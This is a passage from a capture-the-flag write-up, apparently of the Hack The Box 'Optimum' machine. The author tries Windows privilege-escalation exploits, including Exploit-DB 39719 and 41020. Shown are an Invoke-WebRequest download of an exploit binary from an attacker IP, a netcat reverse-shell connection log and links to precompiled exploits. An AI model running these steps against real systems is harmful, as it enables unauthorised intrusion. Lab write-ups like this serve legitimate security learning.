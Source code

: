```cmd
PS C:\Users\kostas\Desktop> 39719.ps1
PS C:\Users\kostas\Desktop> .\39719.ps1
PS C:\Users\kostas\Desktop> whoami
optimum\kostas
```

I tried the next one in the list: [https://www.exploit-db.com/exploits/41020/](https://www.exploit-db.com/exploits/41020/), which actually had a precompiled binary: [https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe](https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe)

I got it downloaded to the box, but it wouldn't execute:

```cmd
PS C:\Users\kostas\Desktop> Invoke-WebRequest http://10.10.16.211/exp.exe -Outfile exp.exe
PS C:\Users\kostas\Desktop> dir


    Directory: C:\Users\kostas\Desktop


Mode                LastWriteTime     Length Name                                                                      
----                -------------     ------ ----                                                                      
-a---         20/6/2021  12:20 ??     560128 exp.exe                                                                   
-a---         18/3/2017   2:11 ??     760320 hfs.exe                                                                   
-ar--         18/3/2017   2:13 ??         32 user.txt.txt                                                              


PS C:\Users\kostas\Desktop> exp.exe
PS C:\Users\kostas\Desktop> C:\Users\kostas\Desktop\exp.exe
whoami
^C
```

I tried again with a fresh shell:

```cmd
listening on [any] 413 ...
connect to [10.10.16.211] from (UNKNOWN) [10.10.10.8] 49184
whoami
optimum\kostas
PS C:\Users\kostas\Desktop> & "C:\Users\kostas\Desktop\exp.exe"
````

But no luck.

## Getting a Better Shell

I tried fixing the shell I couldn't get working earlier. I copied across an `nc.exe` binary and hosted it:
